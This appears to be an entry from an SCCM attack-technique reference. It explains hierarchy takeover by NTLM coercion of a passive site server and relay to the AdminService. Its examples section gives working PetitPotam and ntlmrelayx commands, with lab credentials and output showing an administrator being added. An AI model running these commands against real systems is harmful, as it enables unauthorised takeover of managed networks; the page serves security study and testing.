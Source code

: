 # TAKEOVER-5.2
## Description
Hierarchy Takeover via NTLM Coercion and AdminService Relay From Passive Site Server

## ATT&CK TTPs
- [T1078.002 - Valid Accounts](https://attack.mitre.org/techniques/T1078/002/)
- [T1187 - Forced Authentication](https://attack.mitre.org/techniques/T1187/)

## Required Privilege / Context

Valid domain credentials with network connectivity to the passive primary site server and active primary site server.

## Summary

For high availability configurations the passive site server role is deployed to SCCM sites where redundancy for the site server role is required. A passive site server shares the same configuration and privileges as the active site server yet performs no writes or changes to the site until promoted manually or during an automated failover. As such, the passive site server also hosts the SMS Provider role. 

The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The active and passive site server computer accounts are a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (adminservice) REST API and uses Microsoft Negotiate for authentication. In default configurations, the adminservice is vulnerable to NTLM relay attacks. 


## Impact

This technique may allow an attacker to relay a passive site server machine account to the AdminService hosted on the active site server and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables lateral movement to all SCCM clients and/or sensitive systems.

## Examples

### SCCMHunter

```
[04:24:43 PM] INFO     [+] Finished profiling Site Servers.                                                                                                                                                                                                                                    
[04:24:43 PM] INFO     +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | Hostname             | SiteCode          | SigningStatus   | SiteServer   | SMSProvider   | Active   | Passive   | MSSQL   |                                                                                                                                          
                       +======================+===================+=================+==============+===============+==========+===========+=========+                                                                                                                                          
                       | sccm.internal.lab    | LAB               | False           | True         | True          | True     | False     | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | passive.internal.lab | LAB               | False           | True         | True          | False    | True      | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+  
```

### PetitPotam

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 passive.internal.lab

Trying pipe lsarpc
[-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```
### NTLMRelayx

```
└─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid "S-1-5-21-2391214593-4168590120-2599633397-1133" -smb2support -t https://sccm.internal.lab/AdminService/wmi/SMS_Admin
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.141, attacking target https://sccm.internal.lab
[*] Exiting standard auth flow to add SCCM admin...
[*] Authenticating against https://sccm.internal.lab as LAB/PASSIVE$
[*] Adding administrator via SCCM AdminService...
[*] Server returned code 201, attack successful

```


## Defensive IDs


## References
- Garrett Foster, Site Takeover via SCCM’s AdminService API, https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf
- Microsoft, Plan for the SMS Provider, https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider
- Microsoft, What is the administration service in Configuration Manager?, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview